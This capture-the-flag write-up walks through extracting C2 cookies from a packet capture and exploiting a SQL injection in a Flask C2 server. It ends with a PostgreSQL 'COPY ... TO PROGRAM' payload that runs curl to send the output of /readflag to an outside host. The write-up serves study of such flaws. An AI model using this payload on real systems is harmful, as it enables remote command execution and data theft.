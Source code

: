 ### Name: Debugger Unchained
#### Difficulty: Easy
#### Category: Web
Description:
> Our SOC team has discovered a new strain of malware in one of the workstations. They extracted what looked like a C2 profile from the infected machine's memory and exported a network capture of the C2 traffic for further analysis. To discover the culprits, we need you to study the C2 infrastructure and check for potential weaknesses that can get us access to the server.

---

In the zip file, we are given two files:
![](./images/1.png)
The `c2.profile` file looks like a profile that someone would use for their command and control server.
Exploring the packet capture `traffic.pcapng`, we see that there is a lot of HTTP traffic. On further analysis, we see that there were requests to `/assets/jquery-3.6.0.slim.min.js`. Some were POST requests and some were GET requests.
![](./images/2.png)
Also, these requests include some special cookies: `__cflb` and `__cfuid`. These looked like some base64 encoded JSON.
![](./images/3.png)
![](./images/4.png)
I used `tshark` to extract the two cookies into seperate files with the following command.

Extract `__cfuid` cookie:
```sh
tshark -r traffic.pcapng -Y 'http.cookie' -z 'proto,colinfo,http.cookie,http.cookie' | grep __cfuid | cut -d ';' -f 2 | sed 's/"//g' > __cfuid.txt
```

Extract `__cflb` cookie:
```sh
tshark -r traffic.pcapng -Y 'http.cookie' -z 'proto,colinfo,http.cookie,http.cookie' | grep __cflb | cut -d ';' -f 1 | cut -d '"' -f 2 > __cflb.txt
```

I wrote a quick script to extract the contents of these base64 values.
```py
#!/usr/bin/env python3

import json, base64
import colorama

lines = []
with open('__cfuid.txt', 'r') as cfuid:
	for line in cfuid.readlines():
		lines.append(line.strip())

def extract_info(line):
	m0 = line.replace('__cfuid=','')
	m0 = m0
	m1 = base64.b64decode(m0)
	id, output = (json.loads(m1)['id'], json.loads(m1)['output'])
	
	m2 = base64.b64decode(output)
	print(m2.decode())

counter = 0
for line in lines:
	try:
		extract_info(line)
		counter += 1 
	except:
		print(f'{colorama.Fore.RED}Counter {counter} failed{colorama.Fore.RESET}')
```

It looks like output from commands.
![](./images/5.png)

Another interesting thing that we found was that in the response to the GET requests, there was a parameter called `task` which included similar base64 encoded strings.
![](./images/6.png)

I used tshark again to extract these from the packet capture:
![](./images/7.png)

Checking these, we can see that it was actually used to send commands from the c2 server to the victim client.
![](./images/8.png)

The commands and outputs did not help much for now. While checking the responses, we saw that there were two Status 500 responses also.
![](./images/9.png)

![](./images/10.png)
It seems from the output that the application backend is using python's Flask. 
Checking on the other 500 response message, it reveals more about the application.
![](./images/11.png)
Let's copy the request to burpsuite and it to see it's contents on our browser.
We need to change the host to that of the challenge instance.
![](./images/12.png)

Use burpsuite's show response in browser to view it comfortably in browser.
![](./images/13.png)
It can be seen that the value of `output` and `task_id` are directly being passed into the SQL query.
```python
db.execute(f"""INSERT INTO task_outputs(output, task_id) VALUES ('{output}', {id})""")
```
The cookie `__cfuid` is sending the following content:
![](./images/14.png)
So, if we include a SQLi payload in the cookie and send a POST request to that endpoint, we will be able to perform the injection. I used the [hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) extension to encode the cookie in burp repeater.
From enumerating the database with the sql injection, it was identified that they are using postgresql.
The final payload was:
```json
{"id": 1, "output": "U3', 132454); copy (SELECT '') to program 'curl http://YOUR-SERVER?f=`/readflag|base64`'-- -"}
```
Don't forget to encode it to base64 if you're not using this extension.

![](./images/15.png)